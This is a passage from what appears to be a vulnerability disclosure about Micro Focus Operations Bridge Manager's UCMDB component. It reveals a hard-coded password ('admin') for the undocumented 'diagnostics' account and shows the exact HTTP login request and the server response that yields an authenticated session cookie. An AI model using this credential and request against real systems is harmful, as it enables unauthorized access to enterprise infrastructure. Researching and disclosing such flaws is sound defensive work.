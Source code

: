 These users are only visible when accessing the UCMDB component. From the main web application, only *admin* and users created in the main web application are visible.

The first three, *admin*, *sysadmin* and *UISysadmin* all have the same password, which is set up by the administrator when installing the product. 
Only *admin* can login to the main web application, the others can only login to  UCMDB.

I decided to investigate the remaining two accounts, *bsm_odb_customer1* and *diagnostics*, since they are [not referred](https://docs.microfocus.com/search/bsm_odb_customer1/documentation/0/10/Operations%20Bridge%20Manager/2020.05) to [at all](https://docs.microfocus.com/search/diagnostics/documentation/0/10/Operations%20Bridge%20Manager/2020.05) in the [documentation](https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05/Home).

Although it was not determined how these accounts are set up, with extensive testing it was determined that they both must have hard-coded passwords. While the password for *bsm_odb_customer1* was never discovered, the password for *diagnostics* is simply "admin".

This allows anyone to login to the UCMDB component as *diagnostics*. It should be noted that this user is unprivileged, but as we will see below, this does not matter.

In order to get a *LWSSO_COOKIE_KEY* that is authenticated, we need to send a request to *ucmdb-ui/cms/loginRequest.do*, with the username and the password in the query string (the latter base 64 encoded):

```
POST /ucmdb-ui/cms/loginRequest.do;?customerID=1&isEncoded=false&userName=diagnostics&password=YWRtaW4=&ldapServerName=UCMDB HTTP/1.1
```
> Snippet A: HTTP POST UCMDB login request

To which the UCMDB server will respond with:

```
HTTP/1.1 200 OK
Date: Sun, 17 May 2020 21:13:21 GMT
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000
Set-Cookie: LWSSO_COOKIE_KEY=WTQwNdgFlDSM1Il1XTlWJGErjHIGDg54mzv4Yu51_HMk3mrLF7ZMB6KeRecN30sWkdkEFJyLpqUGQ0hXQnPiapbw1891iuGEOW4Ewfk8XNUnIJsouObXN-GaZHLhkfHNlUKp73qEqqvY594n2P5O2sqsn9KYrK7PuGQ5FE0ddKkI2pIvn0rkbT2eRFVdSpHhk-6SadvfLm-CbzdrgLV2INWQgYlYtqMLevI5iv8byN4.; Path=/; HTTPOnly=; Secure=
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Authentication-Result-Key: AUTHENTICATED_SUCCESSFULLY
LOCALE: en
Content-Language: en
Content-Type: text/html;charset=utf-8
Content-Length: 26983

<... POST DATA ...>
```
> Snippet B: HTTP POST UCMDB login response

... which contains a fully authenticated *LWSSO_COOKIE_KEY* for the *diagnostics* user.
